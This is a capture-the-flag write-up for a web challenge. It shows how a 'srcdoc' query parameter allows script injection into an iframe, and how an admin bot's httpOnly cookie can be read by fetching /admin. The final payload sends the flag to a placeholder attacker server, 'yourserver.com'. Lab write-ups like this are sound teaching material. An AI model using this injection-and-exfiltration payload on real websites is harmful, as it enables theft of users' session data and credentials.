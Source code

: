 ## Overview

By inspecting the page you will see a `credentialless` iframe and a script.

```html
<script>
  document
    .querySelector("iframe")
    .setAttribute(
      "srcdoc",
      new URLSearchParams(document.location.search).get("srcdoc")
    );
</script>
```

As you can see you can easly inject JS code into the website by using a payload like: `http://localhost:3000/?srcdoc=<script>alert('0')</script>`

## Finding the flag

The website doesn't request an api, means we have to inspect the source code.

```md
./
├── bot.js
├── build-docker.sh
├── Dockerfile
├── flag.txt
├── index.js
├── package.json
```

- `index.js`

```js
const flag = fs.readFileSync("./flag.txt", "utf8").trim();
```

the flag variable isn't exposed at all, is is only used to verify access to `/admin`

```js
function check(req, res, next) {
  console.log("cookie", req.cookies);
  if (flag === req.cookies?.FLAG) {
    return next();
  } else {
    return res.status(403).send("Forbidden");
  }
}

app.get("/admin", check, (req, res) => {
  res.send(req.cookies?.FLAG ?? "flag{something something}");
});
```

## Observation

there's an endpoint that will let a bot visit the provided url

```js
const { visit } = require("./bot");
/* ... */
app.get("/bot", async (req, res) => {
  if (req.query?.url) await visit(req.query.url);
  res.send("If it's done it's done.");
});
```

- `bot.js`

the bot checks if url starts with `http://` before visiting it and sets the cookie value as the flag

```js
if (!url.startsWith("http://")) {
  throw new Error("invalid url");
}
await page.setCookie({
  name: "FLAG",
  value: flag,
  domain: DOMAIN,
  path: "/",
  httpOnly: true,
  secure: true,
  sameSite: "Lax",
});
```

We can't get the flag via document.cookie because of `httpOnly` and we can't get the flag in a request header because of `sameSite=Lax`.
Since the bot can access `/admin` which returns the flag (cookie) we will let the bot use it to expose the flag value and simply send it to our server.

## Payload

```
http://localhost:3000/bot?url=http://127.0.0.1:3000/?srcdoc=<script type="module">
const resp = await parent.fetch("/admin", { credentials: "include" });
fetch(`http://yourserver.com?flag=${await resp.text()}`)
</script>
```

note: replace `http://localhost:3000` with instance ip 
